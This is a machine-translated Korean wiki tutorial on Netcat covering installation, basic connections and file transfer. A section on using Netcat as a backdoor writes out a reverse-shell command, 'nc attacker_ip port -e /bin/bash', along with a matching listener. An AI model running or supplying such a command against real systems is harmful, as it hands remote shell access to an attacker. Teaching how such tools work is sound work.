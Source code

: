 ```yaml
---
title: Netcat 사용 방법: 네트워크 통신용 명령줄 도구
description: 
published: true
date: 2023-03-11T22:32:30.065Z
tags: 
editor: markdown
dateCreated: 2023-03-11T22:32:30.065Z
---
```


> 이 문서는 **Google Cloud Translation API를 사용해 자동 번역**되었습니다.
어떤 문서는 원문을 읽는게 나을 수도 있습니다.{.is-info}



- [How to Use Netcat: A Command-Line Tool for Network Communications***English** document is available*](/en/Knowledge-base/Network/how-to-use-netcat-a-command-line-tool-for-network-communications)
{.links-list}

## 소개

Netcat(종종 nc로 약칭)은 네트워크 통신에 사용되는 명령줄 도구입니다. 네트워크 연결을 설정 및 상호 작용하고, 네트워크 서비스 및 응용 프로그램을 테스트하고, 네트워크를 통해 파일을 전송하는 데 사용할 수 있는 강력하고 다양한 유틸리티입니다. Netcat은 공격자가 제어하는 시스템을 위한 네트워크 디버깅 도구 및 백도어 작성자로도 사용할 수 있습니다. 이 기사에서는 Netcat을 사용하는 방법과 다양한 기능을 탐색하는 방법에 대해 설명합니다.

## 넷캣 설치하기

Netcat의 기능을 살펴보기 전에 Netcat을 설치해야 합니다. Netcat은 대부분의 Linux 배포판에서 사용할 수 있으며 배포판의 패키지 관리자를 사용하여 설치할 수 있습니다. 예를 들어 Ubuntu에서 다음 명령을 사용하여 Netcat을 설치할 수 있습니다.

```bash
sudo apt-get install netcat
```

macOS에서는 다음을 실행하여 Homebrew를 사용하여 Netcat을 설치할 수 있습니다.

```bash
brew install netcat
```

Windows에서 Netcat은 공식 웹사이트 http://joncraton.org/files/nc111nt.zip에서 다운로드할 수 있습니다.

## 기본 사용법

Netcat은 다양한 방법으로 사용할 수 있지만 가장 기본적인 용도는 특정 포트의 원격 호스트에 대한 연결을 설정하는 것입니다. 원격 호스트에 대한 연결을 설정하려면 다음 구문을 사용하십시오.

```bash
nc [options] hostname port
```

여기서 `hostname`은 원격 호스트의 이름 또는 IP 주소이고 `port`는 원격 서비스가 수신하는 포트 번호입니다. 예를 들어 호스트 example.com의 포트 80에 연결하려면 다음을 실행할 수 있습니다.

```bash
nc example.com 80
```

그러면 호스트 example.com의 포트 80에 대한 TCP 연결이 설정됩니다. 연결이 설정되면 Netcat 세션을 통해 원격 서비스와 상호 작용할 수 있습니다.

## 백도어로서의 Netcat

Netcat은 공격자가 제어하는 시스템의 백도어 생성기로도 사용할 수 있습니다. 예를 들어 공격자는 Netcat을 사용하여 손상된 시스템에 대한 연결을 설정하고 원격 액세스 권한을 얻을 수 있습니다. 백도어를 생성하려면 공격자는 인터넷에서 액세스할 수 있는 포트에서 서버 모드로 Netcat을 실행해야 합니다. 이는 다음 명령을 사용하여 수행할 수 있습니다.

```bash
nc -l -p port
```

여기서 'port'는 Netcat이 들어오는 연결을 수신할 포트 번호입니다. Netcat이 지정된 포트에서 수신 대기하면 공격자는 다음 명령을 사용하여 원격 시스템에서 Netcat에 대한 연결을 설정할 수 있습니다.

```bash
nc attacker_ip port -e /bin/bash
```

여기서 'attacker_ip'는 공격자 시스템의 IP 주소이고 'port'는 Netcat이 수신 대기 중인 포트 번호입니다. `-e` 옵션은 연결이 설정되면 Netcat에 지정된 프로그램(이 경우 `/bin/bash`)을 실행하도록 지시합니다. 연결이 설정되면 공격자는 Netcat 세션을 통해 손상된 시스템에서 명령을 실행할 수 있습니다.

## 파일 전송

Netcat은 네트워크를 통해 파일을 전송하는 데에도 사용할 수 있습니다. Netcat을 사용하여 파일을 전송하려면 발신자는 특정 포트에서 서버 모드로 Netcat을 실행해야 하고, 수신자는 파일을 가져오기 위해 클라이언트 모드로 Netcat을 실행해야 합니다. 파일을 전송하려면 먼저 보낸 사람이 자신의 시스템에서 다음 명령을 실행해야 합니다.

```bash
nc -l -p port < file_to_send
```

여기서 'port'는 Netcat이 들어오는 연결을 수신할 포트 번호이고 'file_to_send'는 보내야 하는 파일의 이름입니다. Netcat이 지정된 포트에서 수신 대기하면 수신자는 다음 명령을 사용하여 파일을 가져올 수 있습니다.

```bash
nc sender_ip port > received_file
```

여기서 'sender_ip'는 발신자 시스템의 IP 주소, 'port'는 Netcat이 수신 대기 중인 포트 번호, 'received_file'은 수신자 시스템에 저장될 파일 이름입니다.

## 결론

Netcat은 광범위한 네트워크 통신에 사용할 수 있는 강력하고 다양한 도구입니다. 이 기사에서는 Netcat을 사용하여 네트워크 연결을 설정하고 백도어를 만들고 네트워크를 통해 파일을 전송하는 방법에 대해 설명했습니다. Netcat은 IT 개발에 유용한 도구일 수 있지만 악의적인 목적으로 사용될 수도 있습니다. 따라서 책임감 있고 윤리적으로 Netcat을 사용하는 것이 중요합니다.

## 외부 리소스

- [넷캣 위키백과](https://en.wikipedia.org/wiki/Netcat)
- [Linux 네트워크 관리를 위한 25가지 Netcat 명령](https://www.ubuntupit.com/netcat-commands-for-managing-linux-networks/)
- [Netcat의 힘 탐구](https://www.linuxjournal.com/article/9814)